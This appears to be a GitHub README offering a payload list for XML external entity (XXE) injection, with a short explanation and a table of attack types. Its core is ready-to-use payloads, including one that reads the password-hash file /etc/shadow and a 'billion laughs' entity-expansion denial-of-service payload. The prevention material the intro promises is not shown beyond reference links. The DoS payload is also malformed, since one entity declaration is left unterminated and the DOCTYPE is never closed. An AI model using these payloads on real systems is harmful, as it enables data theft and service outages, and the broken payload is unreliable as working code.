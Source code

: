 ### XML External Entity (XXE) Injection Payload List

In this section, we'll explain what XML external entity injection is, describe some common examples, explain how to find and exploit various kinds of XXE injection, and summarize how to prevent XXE injection attacks. 

#### What is XML external entity injection?

XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any backend or external systems that the application itself can access.

In some situations, an attacker can escalate an XXE attack to compromise the underlying server or other backend infrastructure, by leveraging the XXE vulnerability to perform server-side request forgery (SSRF) attacks. 

<p align="center"> 
<img src="/Image/xxe-injection.jpg">
</p>

There are various types of XXE attacks: 

|XXE Attack Type               |Description                          |
|----------------|-------------------------------|
|Exploiting XXE to Retrieve Files| Where an external entity is defined containing the contents of a file, and returned in the application's response. |
|Exploiting XXE to Perform SSRF Attacks| Where an external entity is defined based on a URL to a back-end system. |
|Exploiting Blind XXE Exfiltrate Data Out-of-Band| Where sensitive data is transmitted from the application server to a system that the attacker controls. |
|Exploiting blind XXE to Retrieve Data Via Error Messages | Where the attacker can trigger a parsing error message containing sensitive data. |

##### XML External Entity (XXE) Injection Payloads

###### XXE: Basic XML Example

```
<!--?xml version="1.0" ?-->
<userInfo>
 <firstName>John</firstName>
 <lastName>Doe</lastName>
</userInfo>
```

###### XXE: Entity Example

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```

###### XXE: File Disclosure

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>
```

###### XXE: Denial-of-service Example

```
<!--?xml version="1.0" ?-->
<!DOCTYPE lolz [<!ENTITY lol "lol"><!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
<tag>&lol9;</tag>
 ```
 
 #### References :
 
👉 [XML External Entity (XXE) Processing](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing)

👉 [XML External Entity Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html) 

👉 [Testing for XML Injection (OTG-INPVAL-008)](https://www.owasp.org/index.php/Testing_for_XML_Injection_(OTG-INPVAL-008))
